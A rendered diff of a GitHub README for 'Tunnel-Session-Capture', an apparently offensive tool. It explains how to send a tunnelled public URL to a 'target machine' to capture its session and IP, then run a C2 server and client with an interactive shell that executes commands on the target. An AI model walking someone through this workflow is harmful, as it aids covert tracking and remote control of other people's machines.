

Before and after one commit to zohaibdevs/Tunnel-Session-Capture, a Markdown page: README.md, the part around one of its changes. Shown at 83% size. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -50,57 +31,63 @@ Run Command into you Terminal to Install
 ------------------------------------------------------------------------
 
 # 🔥 Usage Guide
-first of all if we need to use server & client before that we need to create session with target machine I will mention below how thing work.
+### Quick Start
+The tool uses a command-line interface for all operations:
 
-- How To Create Session
-- How to start server
-- How to start client
+### Basic Commands
 
-## Menu
+    python  main.py  -h
 
-    root@terminal> python main.py
-    0: exit
-    1: List target sessions
-    2. Refresh session list
-    3. create new target session
+    python  main.py  c2  -h
 
+    python  main.py  session -h
 
-## How To Create Session
-First we need to create session wit target machine
+## 🎯 C2 Mode (Server/Client Communication)
+### Start C2 Server
+	# Start server on default IP/port (0.0.0.0:7706)
+	python main.py c2 --type server
 
-### Step 1 --  Select Tunnel Provider (Select 3 from menu)
+	# Start server on custom IP/port
+	python main.py c2 --type server --ip 192.168.1.100 --port 8080
+### Start C2 Client
+	# Connect to default server (0.0.0.0:7706)
+	python main.py c2 --type client
 
-    Select tunnel provider:
-    1: ngrok
-    2: cloudflared
-    3. localtunnel
-### Step 2 -- Public URL
-send public URL to target machine for capturing the info into session. when target machine open the URL into browser after getting there session info server automatically close
+	# Connect to custom server
+	python main.py c2 --type client --ip 192.168.1.100 --port 8080
 
-find this to in terminal
+### C2 Features
+-   **Shell Mode**: Type `shell` to enter interactive shell mode
 
-    public: url
-    your url is: url
+-   **Exit Shell**: Type exit to leave shell mode
+-   **Command Execution**: Execute system commands on target
+-   **Real-time Communication**: Bidirectional messaging
 
-## How To Start Server
-Start Listening server on our just send message to client and get response back
+## 🎣 Session Mode (Tunnel Capture)
+### Create New Session
+	# Create session with tunnel
+	python main.py session --session create
 
-###  Step 1 -- Select 1 to Get List of Session
-I am displaying local IP due to security purpose  don't worry session list show the public IP instead of local IP
+	# Choose tunnel provider when prompted:
+	# 1: ngrok
+	# 2: cloudflared
+	# 3: localtunnel
+### List Sessions
+	# List all captured sessions
+	python main.py session --session list
 
-    [1] 192.168.0.0
-    [2] 192.168.0.7
-    [3] 192.168.0.8
-    etc....
-    pick session number: you can add by number example 1
+## 📋 Complete Workflow
+### Step 1: Create Target Session
+	python main.py session --session create
 
+-   Select tunnel provider (ngrok/cloudflared/localtunnel)
+-   Get public URL (e.g., `https://abc123.localtunnel.me`)
+-   Send URL to target machine
+-   Target opens URL → Session captured automatically
 
-### Step 2 -- After Selecting Session from list
+### Step 2: List Available Sessions
+	python main.py session --session list
 
-    Select Ip Option:
-    0: exit
-    1: Localhost (192.168.0.7)
-    2: Public IP (**.***.***.165)
-    3: Use IP 0.0.0.0
-    Enter Ip Option: 1
+-   View captured sessions with IP addresses
+-   Note the target IP for next step
 
```
Also changed, not shown: other parts of README.md (+29 -49 lines).
